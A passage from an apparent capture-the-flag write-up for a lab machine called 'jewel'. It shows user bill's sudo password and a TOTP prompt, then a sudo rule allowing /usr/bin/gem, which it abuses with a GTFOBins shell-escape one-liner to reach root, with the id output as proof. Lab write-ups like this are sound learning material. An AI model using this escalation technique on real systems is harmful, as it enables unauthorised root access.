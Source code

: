 Then I got my code.

![07e26e88bd69b0fbd76657eaddb706f8.png](/images/547f92c4d92f4d5aaf6929e0dd00d2b5.png)

Now if I run `sudo -l` again, I can enter the password and then the verification code from the authenticator app.


{% highlight text %}
[sudo] password for bill: spongebob

Verification code: 848801

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem

{% endhighlight %}

A quick search [Gtfobins](https://gtfobins.github.io/gtfobins/gem/) and I got my payload to escalate to root. 

{% highlight sh %}
sudo /usr/bin/gem open -e "/bin/sh -c /bin/sh" rdoc
{% endhighlight %}

{% highlight sh %}
id
{% endhighlight %}
{% highlight text %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>
